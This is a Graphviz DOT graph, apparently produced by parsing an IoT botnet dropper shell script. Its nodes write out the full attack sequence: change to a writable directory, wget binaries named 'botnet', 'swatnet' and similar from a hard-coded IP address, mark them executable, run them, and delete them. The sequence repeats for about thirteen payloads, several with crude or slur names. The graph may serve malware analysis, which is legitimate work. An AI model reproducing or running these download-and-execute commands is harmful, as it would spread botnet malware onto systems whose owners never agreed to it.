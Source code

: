digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://174.138.56.147/cock "];
10 -> 12 [label=";,"];
12 [label="chmod +x cock "];
12 -> 14 [label=";,"];
14 [label="./cock "];
14 -> 16 [label=";,"];
16 [label="rm -rf cock "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://174.138.56.147/net "];
28 -> 30 [label=";,"];
30 [label="chmod +x net "];
30 -> 32 [label=";,"];
32 [label="./net "];
32 -> 34 [label=";,"];
34 [label="rm -rf net "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://174.138.56.147/botnet "];
46 -> 48 [label=";,"];
48 [label="chmod +x botnet "];
48 -> 50 [label=";,"];
50 [label="./botnet "];
50 -> 52 [label=";,"];
52 [label="rm -rf botnet "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://174.138.56.147/swatnet "];
64 -> 66 [label=";,"];
66 [label="chmod +x swatnet "];
66 -> 68 [label=";,"];
68 [label="./swatnet "];
68 -> 70 [label=";,"];
70 [label="rm -rf swatnet "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://174.138.56.147/dicknet "];
82 -> 84 [label=";,"];
84 [label="chmod +x dicknet "];
84 -> 86 [label=";,"];
86 [label="./dicknet "];
86 -> 88 [label=";,"];
88 [label="rm -rf dicknet "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://174.138.56.147/fucknet "];
100 -> 102 [label=";,"];
102 [label="chmod +x fucknet "];
102 -> 104 [label=";,"];
104 [label="./fucknet "];
104 -> 106 [label=";,"];
106 [label="rm -rf fucknet "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://174.138.56.147/cracknet "];
118 -> 120 [label=";,"];
120 [label="chmod +x cracknet "];
120 -> 122 [label=";,"];
122 [label="./cracknet "];
122 -> 124 [label=";,"];
124 [label="rm -rf cracknet "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://174.138.56.147/weednet "];
136 -> 138 [label=";,"];
138 [label="chmod +x weednet "];
138 -> 140 [label=";,"];
140 [label="./weednet "];
140 -> 142 [label=";,"];
142 [label="rm -rf weednet "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://174.138.56.147/gaynet "];
154 -> 156 [label=";,"];
156 [label="chmod +x gaynet "];
156 -> 158 [label=";,"];
158 [label="./gaynet "];
158 -> 160 [label=";,"];
160 [label="rm -rf gaynet "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://174.138.56.147/queernet "];
172 -> 174 [label=";,"];
174 [label="chmod +x queernet "];
174 -> 176 [label=";,"];
176 [label="./queernet "];
176 -> 178 [label=";,"];
178 [label="rm -rf queernet "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://174.138.56.147/ballnet "];
190 -> 192 [label=";,"];
192 [label="chmod +x ballnet "];
192 -> 194 [label=";,"];
194 [label="./ballnet "];
194 -> 196 [label=";,"];
196 [label="rm -rf ballnet "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://174.138.56.147/unet "];
208 -> 210 [label=";,"];
210 [label="chmod +x unet "];
210 -> 212 [label=";,"];
212 [label="./unet "];
212 -> 214 [label=";,"];
214 [label="rm -rf unet "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://174.138.56.147/yougay "];
226 -> 228 [label=";,"];
228 [label="chmod +x yougay "];
228 -> 230 [label=";,"];
230 [label="./yougay "];
230 -> 231 [label=";,"];
}

